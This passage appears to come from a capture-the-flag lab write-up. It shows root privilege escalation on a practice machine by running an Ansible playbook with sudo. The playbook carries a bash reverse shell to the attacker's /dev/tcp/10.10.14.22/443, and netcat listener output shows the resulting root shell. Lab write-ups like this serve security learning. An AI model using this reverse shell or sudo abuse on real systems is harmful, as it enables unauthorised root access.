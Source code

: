 

### Shell

#### Via Reverse Shell

I'll create a simple Bash script to get a reverse shell:



    luis@seal:/dev/shm$ vim rev.sh
    luis@seal:/dev/shm$ cat rev.sh 
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.22/443 0>&1
    luis@seal:/dev/shm$ chmod +x rev.sh 



After testing that it works, I'll make a playbook to run it:



    - hosts: localhost
      tasks:
      - name: rev
        shell: bash -c 'bash -i >& /dev/tcp/10.10.14.22/443 0>&1'



Running it hangs in the rev task:



    luis@seal:/dev/shm$ sudo ansible-playbook rev.yml 
    [WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

    PLAY [localhost] *******************************************************************************************************************

    TASK [Gathering Facts] *************************************************************************************************************
    ok: [localhost]

    TASK [rev] *************************************************************************************************************************



But at `nc` there's a shell:



    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.22] from (UNKNOWN) [10.10.10.250] 49578
    root@seal:/dev/shm# id
    uid=0(root) gid=0(root) groups=0(root)



I can grab `root.txt`:

